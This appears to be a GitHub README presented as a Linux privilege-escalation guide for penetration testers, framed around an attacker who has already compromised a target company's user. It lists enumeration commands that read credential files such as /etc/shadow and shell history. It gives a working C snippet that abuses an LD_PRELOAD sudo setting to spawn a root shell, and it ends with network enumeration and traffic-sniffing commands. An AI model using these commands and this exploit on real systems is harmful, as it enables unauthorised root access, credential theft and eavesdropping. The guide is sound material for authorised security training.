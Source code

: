 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration
```sh
history                               # identify previously executed commands in the shell
whoami                                # enumerate the user
id                                    # enumerate the user
cat /etc/{passwd,shadow,group}        # check if we can see the stored passwords, users, groups
cat /etc/{passwd,group}               # same but without shadow (usually 'Permission denied')
ps aux, ps aux | grep root            # see unusual processes and processes run by the root user
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
cat proc/{version,issue}
uname --kernel-{name,release,version}
uname --all
lscpu

sudo -l                               # to check which commands I can run as a super user without the password
```

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

# Network enumeration

```sh
ifconfig     # to see network interfaces, ip addresses..etc
ip a         # alternative for ifconfig
ip -c a      # output in color
arp -a       # check to ARP table and discover additional assets on the subnet
ip neigh     # alternative for the arp command
ip route     # check the route table and discover gateways, additional IPs
netstat      # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement
